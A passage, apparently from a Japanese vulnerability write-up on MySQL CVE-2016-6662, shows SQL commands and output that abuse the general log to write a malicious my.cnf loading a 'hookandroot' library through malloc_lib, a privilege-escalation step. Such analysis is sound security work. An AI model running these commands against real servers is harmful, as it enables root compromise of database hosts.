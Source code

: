 したがって、攻撃者がMySQLのFILEパーミッションを持つ場合、以下のパスに設定ファイルを作成することにより、悪意のある設定を読み込ませることができます。

```
/var/lib/mysql/my.cnf 
```

OUTFILEを利用した方法では、作成されるファイルのパーミッションは前述の通り、誰でも読み書き可能なmysql所有のファイルになるため設定ファイルとして読み込まれることはありません。

```
mysql> SELECT 'malicious config entry' INTO OUTFILE '/var/lib/mysql/my.cnf';
Query OK, 1 row affected (0.00 sec)

root@CVE-2016-6662:~# ls -l /var/lib/mysql/my.cnf
-rw-rw-rw- 1 mysql mysql 23  9月 13 18:57 /var/lib/mysql/my.cnf

root@CVE-2016-6662:/var/log/mysql# tail -f /var/log/mysql/error.log | grep -i world
Warning: World-writable config file '/var/lib/mysql/my.cnf' is ignored
```

しかし、攻撃者はloggin SQL statementを利用することにより、この制限を迂回することができます。

```
mysql> set global general_log_file = '/var/lib/mysql/my.cnf';
Query OK, 0 rows affected (0.00 sec)

mysql> set global general_log = on;
Query OK, 0 rows affected (0.00 sec)

mysql>  select '
    '>
    '> ; injected config entry
    '>
    '> [mysqld]
    '>  malloc_lib=/var/lib/mysql/mysql_hookandroot_lib.so
    '>
    '>  [separator]
    '> ';
+--------------------------------------------------------------------------------------------------------+
| ; injected config entry

[mysqld]
 malloc_lib=/var/lib/mysql/mysql_hookandroot_lib.so

 [separator]
   |
+--------------------------------------------------------------------------------------------------------+
|

; injected config entry

[mysqld]
 malloc_lib=/var/lib/mysql/mysql_hookandroot_lib.so

 [separator]
 |
+--------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> set global general_log = off;
Query OK, 0 rows affected (0.01 sec)
```
